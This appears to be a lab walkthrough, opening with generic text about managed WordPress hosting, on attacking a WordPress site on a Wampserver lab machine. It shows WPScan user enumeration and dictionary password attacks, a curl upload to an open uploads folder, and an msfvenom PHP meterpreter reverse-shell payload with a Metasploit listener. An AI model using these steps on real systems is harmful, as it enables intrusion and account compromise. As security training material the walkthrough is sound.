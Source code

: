 Managed WordPress hosting is a distinct sub-category of web hosting configured to optimize sites built on this content management system.
WordPress is the world’s most popular CMS, with around 42.5% of all websites using it. This is why many web hosting companies offer managed WordPress hosting services.
Depending on the web host, WordPress hosting can fall under different web hosting categories. For example, different hosting providers may offer Shared WordPress hosting, VPS WordPress hosting, or Cloud WordPress hosting.
The advantages of hosting a WordPress site, there are many benefits to choosing a managed WordPress hosting plan over a regular shared web hosting service plan. Examples of 
Easier Setup -> Pre-installed plugins and themes help create an optimized wordpress host environment, easing technical setups and installations. 
Optimal Performance -> They use a server that has been configured specifically for WordPress sites, often built in caching software is also included to ensure fast loading speed. 
Up-to-date servers and software -> web hosts ensure their wordpress specific servers run the latest software, resulting in optimal compatibility and seamless performance. 
Hassle-free management -> Leave most of the WordPress technicalities to your web hosting plans and focus on other factors like improving search engine optimization strategies. 

After we ran nmap from our Kali Linux on our Windows Server 08, we can see that other ports are open as well, we will now exploit a wordpress site from the list below. 
![open ports](https://user-images.githubusercontent.com/93686063/201990303-3fc5f9b6-b9eb-4d42-8930-7c002deaecaa.JPG)

$`WPScan` is a helpful tool which can help us to enumerate a Wordpress site. It can look for credentials as well as information about the WordPress Site. According to W3Techs, 2022 Wordpress is used by 43.2% of all the websites on the Internet. Two out of every five websites on the Internet use WordPress. WPScan also has a password cracker, it can help check your website for weak authentication credentials. You would need to provide WPScan with a passwrod dictionary of your choosing. 

We will be exploiting the $`Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2` which is in port 8585 for the next exercise. If we type in the $`10.0.2.8:8585` we can see a Wampserver which is used to host a Wordpress website. Now we will see if we can upload anything on the site. First we will test out if we can upload a file into the server. we will do a regular $`echo` command in order to upload a file. $`echo "Hello World" > test.php` After we create the file, now we need to upload the file in the Wamp Server. 

In order to upload the file to the server, we use the $`curl` command. $` curl http://10.0.2.8:8585/uploads/ --upload-file test.php` We go back to the browser and see that the file has been uploaded. A MAJOR SECURITY VULNERABILITY. 
Before we use the WPScan, we need to update the db. After the update we do $`wpscan --url http://10.0.2.8:8585/wordpress -e(enumerate) vp(verbose), u(username)` This will do the scanning, under interesting findings it will have things that we can look for. It will also show users identified and if possible will get the passwords. 
We can now try to get the passwords by adding a dictionary password file. $`wpscan --url http://10.0.2.8:8585/wordpress --passwords /usr/share/wordlists/metasploit/password.lst` It will try to find the password using the values in the password file. You as an attacker will have to play around and see if you can add a different file to find the right password. It did not find any passwords, this is a tedious process so we might have to try different things in order to make sure we get the right. 


$`Now we will try a different method in order to get to the system using MSFVenom`


Now that we know that we can upload a file, we will be using msfvenom in order to get a meterpreter session. We will open a new terminal and first search for a `reverse_tcp`. We will type in $`msfvenom --list payloads | grep php` the grep command will look for payloads which have php on it. When we find it we will type $`msfvenom --payload php/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 > free.php` this is create a payload and save it as `free.php` We will need to upload this `free.php` to the uploads folder so that when somebody clicks on it, then it will connect back to our listener. 

After this we will go back to the msfconsole, $`msf6 > use exploit/multi/handler`. Here we are setting up the listener. We want the user to connect back to me. After this we do options so as to see what parameters we need to set in order to use the exploit. We have to set the $`Rhost` and $`Rport` and we need to add the $`payload options` we will type in set payload options `php/meterpreter/reverse_tcp`. 





